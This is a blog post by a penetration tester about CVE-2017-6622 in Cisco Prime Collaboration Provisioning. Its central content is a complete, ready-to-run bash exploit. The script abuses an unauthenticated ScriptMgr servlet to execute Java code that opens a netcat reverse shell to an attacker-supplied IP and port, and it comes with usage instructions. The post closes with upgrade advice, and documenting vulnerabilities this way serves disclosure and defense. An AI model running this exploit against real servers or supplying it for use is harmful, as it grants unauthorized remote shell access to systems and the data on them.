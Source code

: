 ```yaml
---
layout: post
title: Cisco Prime Collaboration Provisioning RCE
category: Security
tags: [exploit, hacking, security]
---
```


Sometimes, as part of my day job I get to go out and do penetration testing for random places. The past two weeks I've been lucky enough to be on my second professional pentest. It was a lot of fun, and particularly challenging. Our customer had an excellent security posture, but I did stumble across a Cisco server that had a reported remote code execution vulnerability, [CVE-2017-6622](https://nvd.nist.gov/vuln/detail/CVE-2017-6622). However, I couldn't find any good proof-of-concept code for obtaining a shell from it. So, after I got the shell I decided to write up this little post.

## Vulnerable Software

Being in an enterprise environment we found plenty of VoIP phones. As a result of this, the customer was using a piece of software called Cisco Prime Collaboration. This software helps enable rapid installation and maintenance of Cisco Unified Communications and Cisco TelePresence components as well as the provisioning of users and services, substantially increasing productivity and lowering operating expenses. If I remember correctly, it is a Java server (my note taking could improve) which has several endpoints. More information on the software can be found at [Cisco's website](https://www.cisco.com/c/en/us/products/cloud-systems-management/prime-collaboration/index.html).

## Java Remote Code Execution

One of our vulnerability scanners picked up a remote code execution (RCE) vulnerability on this machine. However, it's PoC was a simple ping command. After verifying this was indeed a positive result I set out to obtain a shell. I ran into several problems with formatting the URL, but I finally came up with the script below for gaining access via a netcat reverse shell.

```bash
# Exploit Title: Cisco Prime Collaboration Provisioning < 12.1 - ScriptMgr Servlet Authentication Bypass Remote Code Execution
# Date: 09/27/2017
# Exploit Author: Adam Brown
# Vendor Homepage: https://cisco.com
# Software Link: https://software.cisco.com/download/release.html?mdfid=286308336&softwareid=286289070&release=11.6&flowid=81443
# Version: < 12.1
# Tested on: Debian 8
# CVE : 2017-6622
# Reference: https://www.tenable.com/plugins/index.php?view=single&id=101531
# Mitigation - Upgrade your Cisco Prime Collaboration Provisioning server to 12.1 or later.

# Description - This vulnerability allows an unauthenticated attacker to execute arbitrary Java code on a system running Cisco Prime Collaboration Provisioning server < 12.1 via a scripttext parameter in the ScriptMgr page.

# Usage: ./prime-shell.sh <TARGET-IP> <ATTACKER-IP> <ATTACKER-PORT>

function encode() {
	echo "$1" | perl -MURI::Escape -ne 'chomp;print uri_escape($_),"\n"'
}

TARGET=$1
ATTACKER=$2
PORT=$3

BASH=$(encode "/bin/bash")
COMMAND=$(encode "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $ATTACKER $PORT >/tmp/f")
SCRIPTTEXT="Runtime.getRuntime().exec(new%20String[]{\"$BASH\",\"-c\",\"$COMMAND\"});"

curl --head -gk "https://$TARGET/cupm/ScriptMgr?command=compile&language=bsh&script=foo&scripttext=$SCRIPTTEXT"
```

## Coffee Break!

I hope you enjoyed this post! If you are running Cisco Prime Collaboration provisioning please ensure that you've upgraded to at least version 12.1 in order to mitigate the above mentioned attack. As always, please reach out with any questions you may have, and happy hacking!

